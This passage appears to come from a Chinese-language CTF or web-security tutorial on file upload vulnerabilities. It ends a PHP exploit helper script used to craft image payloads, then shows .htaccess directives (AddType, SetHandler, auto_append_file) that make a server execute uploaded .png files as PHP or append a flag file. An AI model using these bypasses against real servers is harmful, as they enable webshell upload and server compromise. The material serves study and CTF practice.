 ```php

        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }

        public function readByte() {
            if($this->eof()) {
                die('End Of File');
            }
            $byte = substr($this->binData, 0, 1);
            $this->binData = substr($this->binData, 1);
            return ord($byte);
        }

        public function readShort() {
            if(strlen($this->binData) < 2) {
                die('End Of File');
            }
            $short = substr($this->binData, 0, 2);
            $this->binData = substr($this->binData, 2);
            if($this->order) {
                $short = (ord($short[1]) << 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) << 8) + ord($short[1]);
            }
            return $short;
        }

        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>
// 用法  php exp.php a.png
```

## .htaccess配置绕过

首先我们要知道`.htaccess`的作用。

`.htaccess`是一个纯文本文件，用于存放`Apache`服务器配置相关的指令。

作用主要有重写`URL`、`MIME`类型配置，访问权限控制等等。

它是`分布式配置文件`，置于某个文件夹下后可以对这个目录的文件进行特异性配置，有点类似于`.user.ini`。

在文件上传漏洞中，我们可以上传`.htaccess`文件，通过修改里面的配置，使得服务器可以把其他后缀名的文件也按照`php`解析。若成功，则可以编写恶意代码到任意后缀名文件用于解析。

这里写一下`.htaccess`的两种写法

```
AddType application/x-httpd-php .png   //将.png后缀的文件解析 成php
```

和

```
<FilesMatch "png">
SetHandler application/x-httpd-php
</FilesMatch>
```

`flag`假如不是`php`文件，也可以像`.user.ini`在当前目录加载一个文件

```
php_value auto_append_file 'flag'
```


